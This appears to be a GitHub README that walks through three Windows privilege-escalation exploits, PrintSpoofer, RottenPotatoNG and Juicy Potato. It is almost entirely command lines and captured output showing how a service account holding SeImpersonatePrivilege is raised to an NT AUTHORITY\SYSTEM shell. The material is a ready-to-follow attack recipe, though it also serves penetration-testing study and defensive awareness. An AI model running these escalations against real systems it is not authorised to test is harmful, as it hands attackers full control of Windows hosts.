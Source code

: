 Thanks for : 

https://github.com/itm4n/PrintSpoofer

https://github.com/breenmachine/RottenPotatoNG

https://github.com/ohpe/juicy-potato

# PrintSpoofer

 This attack requires SeImpersonatePrivilege privilege

First we will spawn a nt "authority\network service" shell with psexec

	PSTools>PsExec.exe -i -u "nt authority\network service" cmd.exe

In newly spawned shell check who you are

	C:\Windows\system32>whoami
	nt authority\network service
	
	C:\Windows\system32>whoami /priv
	
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                               State
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled
	SeCreateGlobalPrivilege       Create global objects                     Enabled
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled


Use PrintSpoofer64.exe and get system shell

	C:\Windows\system32>c:\tmp\PrintSpoofer64.exe -i -c powershell.exe
	[+] Found privilege: SeImpersonatePrivilege
	[+] Named pipe listening...
	[+] CreateProcessAsUser() OK
	Windows PowerShell
	Copyright (C) 2015 Microsoft Corporation. All rights reserved.
	
	PS C:\Windows\system32> whoami
	nt authority\system
	PS C:\Windows\system32> whoami /priv
	
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                  Description                                   State
	=============================== ============================================= =======
	SeCreateTokenPrivilege          Create a token object                         Enabled
	SeAssignPrimaryTokenPrivilege   Replace a process level token                 Enabled
	SeLockMemoryPrivilege           Lock pages in memory                          Enabled
	.
	.
	.
	SeRelabelPrivilege              Modify an object label                        Enabled
	SeIncreaseWorkingSetPrivilege   Increase a process working set                Enabled
	SeTimeZonePrivilege             Change the time zone                          Enabled
	SeCreateSymbolicLinkPrivilege   Create symbolic links                         Enabled


# RottenPotatoNG

Start a cmd with "local service" permission

	PSTools>PsExec.exe -i -u "nt authority\local service" cmd.exe

check permissions

	C:\Windows\system32>whoami
	nt authority\local service
	
	C:\Windows\system32>whoami /priv
	
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                               State
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeSystemtimePrivilege         Change the system time                    Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled
	SeCreateGlobalPrivilege       Create global objects                     Enabled
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled

Run MSFRottenPotato.exe, it will spawn a new cmd.exe with system privileges :)

	C:\Windows\system32>c:\tmp\MSFRottenPotato.exe
	COM -> bytes received: 116
	RPC -> bytes Sent: 116
	.
	.
	.
	COM -> bytes sent: 60
	COM -> bytes received: 42
	RPC -> bytes Sent: 42
	RPC -> bytes received: 56
	COM -> bytes sent: 56
	Running C:\Windows\System32\cmd.exe with args
	Auth result: 0
	Return code: 0
	Last error: 0

On new console

	C:\Windows\system32>whoami
	nt authority\system

# Juicy Potato

First spawn a shell with "local service" privs

	PSTools>PsExec.exe -i -u "nt authority\local service" cmd.exe

check your current privileges

	C:\Windows\system32>whoami
	nt authority\local service
	
	C:\Windows\system32>whoami /priv
	
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                               State
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeSystemtimePrivilege         Change the system time                    Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled
	SeCreateGlobalPrivilege       Create global objects                     Enabled
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled

Fire up bad boy, it will spawn a cmd for you :)

	C:\Windows\system32>c:\tmp\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t *
	Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
	......
	[+] authresult 0
	{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
	
	[+] CreateProcessWithTokenW OK

privs on new shell

	C:\Windows\system32>whoami
	nt authority\system
